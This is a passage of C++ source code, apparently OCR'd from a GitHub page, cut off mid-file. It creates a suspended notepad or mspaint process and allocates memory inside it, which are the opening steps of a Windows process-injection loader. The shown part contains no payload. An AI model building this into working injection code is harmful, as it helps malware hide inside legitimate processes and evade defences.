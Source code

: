         SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RESET);

        VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
        return nullptr;
    }

    return lpBuffer;   
}


BOOL CreateTargetProcess(HANDLE* hProcess, HANDLE* hThread, LPVOID* lpBuffer, const std::wstring& processName=L"C:\\Windows\\System32\\notepad.exe")
{
    std::cout << "[*] Trying to create process..." << std::endl;

    STARTUPINFOW startInfo{ NULL };
    PROCESS_INFORMATION processInfo{ NULL };

    // note the CREATE_SUSPENDED creation flag
    if(CreateProcessW(processName.data(), NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &startInfo, &processInfo))
    {
        *hProcess = processInfo.hProcess; 
        *hThread = processInfo.hThread;

        std::cout << "\\n[+] Process Handle: 0x" << *hProcess << std::endl;
        std::cout << "[+] Thread Handle: 0x" << *hThread << std::endl;

        try
        {
            *lpBuffer = MemoryAllocation(*hProcess);
            if(!*lpBuffer)
            {
                SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
                std::cerr << "\\t[-] Failed to completion CreateTargetProcess()" << std::endl;
                SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RESET);
                throw FALSE;
            }
        }
        catch(BOOL x)
        {
            DWORD dwExitCode { NULL };
            if(*lpBuffer)
                VirtualFreeEx(*hProcess, *lpBuffer, 0, MEM_RELEASE);
            
            TerminateProcess(*hProcess, GetExitCodeProcess(*hProcess, &dwExitCode));
            return x;
        }
    }
    else
    {
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        std::cerr << "[-] Failed to create target process with error: 0x" << GetLastError();
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        return FALSE;
    }

    return TRUE;
}

int main()
{
    std::wstring processName { L"C:\\Windows\\System32\\mspaint.exe" };
    LPVOID lpBuffer { nullptr };
    HANDLE hThread { nullptr };
    HANDLE hProcess { nullptr };
    DWORD dwExitCode { NULL }, dwOldProtect { NULL };
    BOOL bMemProtect { NULL };
